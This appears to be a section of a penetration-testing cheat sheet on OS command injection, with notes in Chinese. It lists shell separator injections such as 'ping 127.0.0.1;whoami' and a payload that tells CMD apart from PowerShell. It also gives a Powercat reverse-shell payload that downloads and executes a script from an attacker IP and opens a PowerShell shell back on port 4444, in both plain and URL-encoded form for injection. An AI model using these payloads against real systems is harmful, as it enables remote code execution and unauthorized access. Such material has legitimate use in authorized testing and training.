 ### OS Command Injection
###### Common ways
```
;：执行完前面的语句再执行后面的。例如： ping 127.0.0.1;whoami。
|：显示后面语句的执行结果。例如： ping 127.0.0.1|whoami。
||：或，如果前面命令成功执行，那么命令结束执行；当前面的语句执行出错时，执行后面的语句。例如： ping 127.0.0.1||whoami。
&：如果前面的语句为假则直接执行后面的语句，前面的语句可真可假 。例如： ping 127.0.0.1&whoami。
&&：如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真。例如： ping 127.0.0.1&&whoami。
```
###### Powershell Or CMD
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
urlencode((dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell)
```
###### Powercat
>Powercat is a PowerShell implementation of Netcat included in Kali
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
urlencode(git;IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell)
```
